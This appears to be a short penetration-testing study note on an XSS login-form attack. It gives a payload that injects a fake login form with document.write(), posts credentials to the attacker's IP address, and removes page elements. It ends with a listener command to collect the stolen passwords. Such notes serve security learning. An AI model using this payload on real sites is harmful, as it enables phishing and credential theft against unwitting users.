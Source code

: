 
---
### Login Form Attack

##### 1. Constructing the Payload

This is a type of [[Cross Site Scripting (XSS)]] attack.
- This form would be injected into the discover XSS injection point.

```HTML
<form action=http://OUR-IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
> Place in the `action` tag our [[IP]] address so that on submission of the form, the credentials are sent to our machine.

We can inject this form into the vulnerable parameter using this javascript function `document.write()`, which writes the content directly into the HTML of the page.

```JavaScript
document.write(
	<form action=http://OUR-IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
```

This will add our login form to the page, but it will not remove other parts of the page that we might want to not appear. 
- To do that, use the `document.getElementById().remove()` function.

Therefore, the final payload: 

```JavaScript
document.write(
	<form action=http://10.10.15.189>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
document.getElementById('to-remove').remove();
```

##### 2. Stealing the Credentials

Open a listener, etiher using [[netcat]], or a PHP server.

```bash
sudo PHP -s 0.0.0.0:80
```

---
